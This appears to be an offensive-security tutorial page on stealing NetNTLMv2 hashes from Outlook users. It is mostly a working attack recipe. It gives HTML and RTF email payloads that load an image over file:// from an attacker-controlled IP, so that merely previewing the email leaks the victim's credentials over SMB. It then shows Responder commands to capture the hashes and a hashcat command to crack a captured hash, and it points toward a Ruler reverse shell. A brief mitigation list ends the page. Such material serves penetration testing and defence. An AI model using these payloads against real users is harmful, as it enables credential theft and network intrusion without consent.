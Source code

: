 # NetNTLMv2 hash stealing using Outlook

## Context

If a target system is not running the latest version of Windows/Outlook, it may be possible to craft such an email that allows an attacker to steal the victim's NetNTLMv2 hashes without requiring any interaction from the user - clicking the email to preview it is enough for the hashes to be stolen.

{% hint style="warning" %}
Note that this attack does not work on the most up to date version of Windows 10 and Outlook 2016 versions, so like always - patch early and often.
{% endhint %}

## Weaponization

Let's create a new HTML file with the below:

{% code title="message.html" %}
```markup
<html>
    <h1>holla good sir</h1>
    <img src="file://157.230.60.143/download.jpg">
</html>
```
{% endcode %}

An RTF file also works:

{% code title="message.rtf" %}
```javascript
{\rtf1{\field{\*\fldinst {INCLUDEPICTURE "file://157.230.60.143/test.jpg" \\* MERGEFORMAT\\d}}{\fldrslt}}}
```
{% endcode %}

Then insert a new file by clicking the attachment icon at the top on the window title bar:

![](<../../.gitbook/assets/Screenshot from 2018-12-28 15-09-57.png>)

Select the malicious messge.html and select `Insert as Text`:

![](<../../.gitbook/assets/Screenshot from 2018-12-28 15-11-07.png>)

You should see that your message now looks like an HTML with a broken image (expected in our case since the path to the image is fake):

![](<../../.gitbook/assets/Screenshot from 2018-12-28 15-11-47.png>)

## Execution

Fire up `Responder` to listen for incoming SMB authentication requests from the victim

{% code title="attacker@kali" %}
```csharp
responder -I eth1 -v
```
{% endcode %}

..and send the malicious email to the victim.

## Victim View

Once the victim opens their Outlook and clicks on the malicious email to preview it, their machine will attempt authenticating to the attacker controlled server (running Responder). This will give away the victim's `NetNTLMv2` hashes to the attacker, which they can then attempt at cracking:

![](<../../.gitbook/assets/Peek 2018-12-28 15-05.gif>)

Once the hash is stolen, we can attempt cracking it:

{% code title="attacker@kali" %}
```csharp
hashcat -m5600 'spotless::OFFENSE:6bdb56c8140cf8dc:FFEF94D55C2EB2DE8CF13F140687AD7A:0101000000000000A5A01FB2BE9ED401114D47C1916811640000000002000E004E004F004D00410054004300480001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D004200310032000800300030000000000000000000000000200000407D7D30819F03909981529F6ACA84502CFCC8B3555DBA34316F8914973DD03C0A0010000000000000000000000000000000000009001A0063006900660073002F00310030002E0030002E0030002E0035000000000000000000' -a 3 /usr/share/wordlists/rockyou.txt --force --potfile-disable
```
{% endcode %}

In this case, we can see the user had a ridiculously simple password, which got cracked immediately:

![](<../../.gitbook/assets/Screenshot from 2018-12-28 15-16-46.png>)

The next step would be to use Ruler to gain a reverse shell from the victims corporate network:

{% content-ref url="password-spraying-outlook-web-access-remote-shell.md" %}
[password-spraying-outlook-web-access-remote-shell.md](password-spraying-outlook-web-access-remote-shell.md)
{% endcontent-ref %}

## Mitigation

* Patch Windows and Outlook
* Block outgoing SMB connections to the Internet
* Read emails in plain text
* Enforce strong passwords

## References

{% embed url="https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2018/may/smb-hash-hijacking-and-user-tracking-in-ms-outlook/" %}

